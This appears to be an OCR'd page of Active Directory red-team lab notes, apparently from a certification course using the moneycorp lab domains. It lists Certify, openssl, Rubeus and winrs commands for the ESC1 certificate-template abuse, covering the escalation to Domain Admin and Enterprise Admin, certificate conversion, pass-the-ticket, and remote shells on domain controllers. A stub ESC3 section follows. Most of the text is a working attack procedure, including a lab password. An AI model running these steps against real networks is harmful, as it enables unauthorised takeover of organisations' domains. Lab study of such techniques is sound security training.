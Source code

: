 ***[+] Privilege Escalation to DA and EA using ESC1***

These attribute need to be check to exploit..
1. `Template Name` : Name of the template
2. `msPKI-Certificates-Name-Flag`  It must be set to `ENROLLEE_SUPPLIES_SUBJECT` to request  a certificate as any user.
3. `Enrollment Rights` : User or group who have the enrolment rights.

*Domain Admin Escalation*
```powershell

####Enumerate template where ENROLLEE_SUPPLIES_SUBJECT set on msPKI-Certificates-Name-Flag
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject

####Request a certificate for dollercorp.moneycorp.local\administrator
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"<template_name>" /altname:administrator

```

*Enterprise Admin Escalation*
```powershell

####Request Certificat for moneycorp.local\administrator
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"<template_name>" /altname:moneycorp.local\administrator

```

Copy all the text between `-----BEGIN RSA PRIVATE KEY-----`  and ` -----END CERTIFICATE----- `and save it to `esc1.pem`

```powershell

####Convert it to PFX to use it with rubeus.
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx

<Export Password>

####Request TGT using Certificate
C:\AD\Tools\Rubeus.exe asktgt /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt


winrs -r:dcorp-dc cmd
(or)
winrs -r:mcorp-dc cmd
```


***[+] Privilege Escalation to DA and EA using ESC3***

```
C:\AD\Tools\Certify.exe find /vulnerable




```
